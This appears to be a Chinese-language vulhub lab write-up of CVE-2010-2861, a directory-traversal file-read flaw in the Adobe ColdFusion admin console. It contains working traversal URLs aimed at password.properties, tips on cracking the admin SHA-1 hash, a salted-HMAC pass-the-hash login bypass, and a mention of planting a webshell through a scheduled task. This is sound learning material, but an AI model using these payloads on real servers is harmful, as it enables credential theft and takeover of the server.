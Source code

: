 # Adobe ColdFusion文件读取漏洞(CVE-2010-2861)

###### by ADummy

### 0x00利用路线

​			Burpsuite抓包改包--->直接读取文件--->有回显

### 0x01漏洞介绍

​			AdobeColdFusion是一款高效的网络应用服务器开发环境。AdobeColdFusion9.0.1及之前版本的管理控制台中存在多个目录遍历漏洞。远程攻击者可借助向CFIDE/administrator/中的CFIDE/administrator/settings/mappings.cfm，logging/settings.cfm，datasources/index.cfm，j2eepackaging/editarchive.cfm和enter.cfm发送的locale参数读取任意文件。

##### 			**影响版本**

```
	ColdFusion MX6 6.1 base patches  
    ColdFusion MX7 7,0,0,91690 base patches        无补丁
    ColdFusion MX8 8,0,1,195765 base patches  
    ColdFusion MX8 8,0,1,195765 with Hotfix4
```

##### 			查看版本信息tips:

```
	 http://target.com/CFIDE/adminapi/base.cfc?wsdl
```

### 0x02漏洞复现

##### poc：

```
http://target.com/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en

http://target.com/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en

http://target.com/CFIDE/administrator/enter.cfm?locale=../../../../../../../servers/cfusion/cfusion-ear/cfusion-war/WEB-INF/cfusion/lib/password.properties%00en	
```

#### 			文章有exp链接，需要自取

​			**服务器启动可能需要1到5分钟。之后，访问`http://your-ip:8500/CFIDE/administrator/enter.cfm`以查看初始化页面，输入密码`admin`以初始化整个服务器。**

![Adobe_ColdFusion文件读取漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Adobe_ColdFusion文件读取漏洞_1.jpg)

​			**/etc/passwd**

![Adobe_ColdFusion文件读取漏洞_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Adobe_ColdFusion文件读取漏洞_2.jpg)

​			**后台管理员密码**

![Adobe_ColdFusion文件读取漏洞_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Adobe_ColdFusion文件读取漏洞_3.jpg)

​			**密码是用sha-1加密过的，可以到http://www.md5decrypter.co.uk/sha1-decrypt.aspx这儿去破解下**

**破解出来后直接登录即可。**

![Adobe_ColdFusion文件读取漏洞_4](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Adobe_ColdFusion文件读取漏洞_4.jpg)

​			**后台获取webshell，添加计划任务后执行，远程下载一个shell到本地目录**

PS:以下我没复现出来，有复现出来的大佬带带弟弟。

Tips(摘抄自文章末链接)： 如果密码破解不出怎么办？放弃？当然不是，这里有个小技巧。coldfusion的密码在验证的时候，是把输入的密码加salt进行HMAC hash后传给服务器，由服务器去计算后验证。所以这时候我们只要传输过去正确的加密后的密码即可成功进入，而不必在那破密码了。但是问题是如何计算 HMAC值。

其实方法很简单，只要用js调用页面里的加密函数即可(页面每30秒刷新一次，所以下手要快)，方法如下，这里我用firebug演示了～：

1.F12调出管理控制台

2.进入控制台选项

3.在下面输入hex_hmac_sha1(document.loginform.salt.value,”password”) password是你获取到的那个加密后的密码

4.回车，得到一个字符串，如下图：

5.打开burpsuit或者什么的，用来修改数据包用到，这里用tamper data插件，点击start tamper 后点登录，截断修改传送的cfadminPassword值为上面js获取的那个字符串值

6.一路submit，成功不用解密密码进入后台

![Adobe_ColdFusion文件读取漏洞_5](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Adobe_ColdFusion文件读取漏洞_5.jpg)

### 0x03参考资料

https://www.cnblogs.com/mujj/articles/3714722.html

exp:https://github.com/ADummmy/vulhub_Writeup/blob/main/code/Adobe_ColdFusionCVE-2010-2861.py



